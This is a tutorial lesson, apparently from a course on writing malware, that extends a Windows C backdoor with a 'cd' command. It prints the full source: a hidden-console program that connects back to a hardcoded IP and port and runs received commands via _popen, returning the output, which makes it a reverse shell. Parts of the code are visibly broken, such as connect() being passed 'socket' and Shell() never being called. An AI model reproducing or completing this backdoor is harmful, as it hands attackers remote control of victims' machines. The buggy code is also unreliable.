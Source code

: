 ```yaml
---
title: Changing directories
course: code_malware
section: "Adding functionalities"
layout: lesson
---
```


For start this "Adding functionalities" section, we will add a "cd" (Change
directory) like command to our malware.

Let's start by opening the "_Backdoor.c_" file, and go to your "_void Shell_"
function. What we want to do, is to add an option for the "_cd_" command in the
"_if_/_else_" section. Between the only two existing "_if_/_else_" statements,
add another one, containing the following code:

```c
else if(strncmp("cd ", buffer, 3) == 0) {
  chdir(str_cut(buffer, 3, 100));
}
```

What does that if block do, is basically check if the buffer is a "_cd_"
command. Why are we comparing the "_buffer_" variable with "_cd_" and an empty
space? Simple, once you send to the client the change directory command, it will
contain the "_cd_" part, and the desired directory to navigate to part, for
example:

```bash
cd Documents
```

That's how the command looks like. If we compare just "_cd_" with our buffer, it
will confuse it with the "_cd_" command which returns the current directory in
Windows. In Windows, the "_cd_" and "_cd Directory_" are not the same.

That's why we compare with the first three characters of our command, so our
backdoor won't confuse it with the "_change directory_" command and the "_print
current directory_" command.

The next thing our above piece of code does, it to change the directory by using
a function called "_chdir_". As you could see, we can't simply pass "_buffer_"
as a parameter because "_buffer_" will contain the entire command (including
"_cd_") causing the program to try to change the current directory to, for
example, "_cd Desktop_". We will create a function called "_buffer_" which will
cut the "cd " part. Add the following function to the beginning of your program
(after "_int sock;_").

```c
char *
str_cut(char str[], int slice_from, int slice_to)
{
  if (str[0] == '\0')
          return NULL;

  char *buffer;
  size_t str_len, buffer_len;

  if (slice_to < 0 && slice_from > slice_to) {
          str_len = strlen(str);
          if (abs(slice_to) > str_len - 1)
                  return NULL;

          if (abs(slice_from) > str_len)
                  slice_from = (-1) * str_len;

          buffer_len = slice_to - slice_from;
          str += (str_len + slice_from);

  } else if (slice_from >= 0 && slice_to > slice_from) {
          str_len = strlen(str);

          if (slice_from > str_len - 1)
                  return NULL;
          buffer_len = slice_to - slice_from;
          str += slice_from;

  } else
          return NULL;

  buffer = calloc(buffer_len, sizeof(char));
  strncpy(buffer, str, buffer_len);
  return buffer;
}
```

That function takes three arguments:

* char str[]: The string of which we want to slice a part of
* int slice_from: The beginning part of our slice, for example, we want to cut
  the value of "_buffer_" from its 3 character.
* int slice_to: The final part of our slice, for example, we will slice the
  "_buffer_" value from its 3rd character, to its 100th.

This is how our entire code looks so far:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <winsock2.h>
#include <windows.h>
#include <winuser.h>
#include <wininet.h>
#include <windowsx.h>
#include <string.h>
#include <sys/stat.h>
#include <sys/types.h>

#define bzero(p, size) (void) memset((p), 0, (size))

int sock;

char *
str_cut(char str[], int slice_from, int slice_to)
{
  if (str[0] == '\0')
          return NULL;

  char *buffer;
  size_t str_len, buffer_len;

  if (slice_to < 0 && slice_from > slice_to) {
          str_len = strlen(str);
          if (abs(slice_to) > str_len - 1)
                  return NULL;

          if (abs(slice_from) > str_len)
                  slice_from = (-1) * str_len;

          buffer_len = slice_to - slice_from;
          str += (str_len + slice_from);

  } else if (slice_from >= 0 && slice_to > slice_from) {
          str_len = strlen(str);

          if (slice_from > str_len - 1)
                  return NULL;
          buffer_len = slice_to - slice_from;
          str += slice_from;

  } else
          return NULL;

  buffer = calloc(buffer_len, sizeof(char));
  strncpy(buffer, str, buffer_len);
  return buffer;
}

void Shell() {
  char buffer[1024];
  char container[1024];
  char total_response[1024];

  while(1) {
    jump:
    bzero(buffer, sizeof(buffer));
    bzero(container, sizeof(container));
    bzero(total_response, sizeof(total_response));

    recv(sock, buffer, 1024, 0);

    if(strncmp("q", buffer, 1) == 0) {
      closesocket(sock);
      WSACleanup();
      exit(0);
    } else if(strncmp("cd ", buffer, 3) == 0) {
      chdir(str_cut(buffer, 3, 100));
    } else {
      FILE *fp;
      fp = _popen(buffer, "r");
      while(fgets(container, 1024, fp) != NULL) {
        strcat(total_response, container);
      }
      send(sock, total_response, sizeof(total_response), 0);
      fclose(fp);
    }
  }
}

int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrev, LPSTR lpCmdLine, int nCmdShow) {
  HWND stealth;
  AllocConsole();
  stealth = FindWindowA("ConsoleWindow", NULL);

  ShowWindow(stealth, 0);

  struct sockaddr_in ServAddr;
  unsigned short ServPort;
  char *ServIP;
  WSADATA wsaData;

  ServIP = "192.168.1.1";
  ServPort = 50005;

  if(WSAStartup(MAKEWORD(2,0), &wsaData) != 0) {
    exit(1);
  }

  sock = socket(AF_INET, SOCK_STREAM, 0);

  memset(&ServAddr, 0, sizeof(ServAddr));
  ServAddr.sin_family = AF_INET;
  ServAddr.sin_addr.s_addr = inet_addr(ServIP);
  ServAddr.sin_port = htons(ServPort);

start:
  while (connect(socket, (struct sockaddr *) &ServAddr, sizeof(ServAddr != 0))) {
    Sleep(10);
    goto start;
  }
}
```
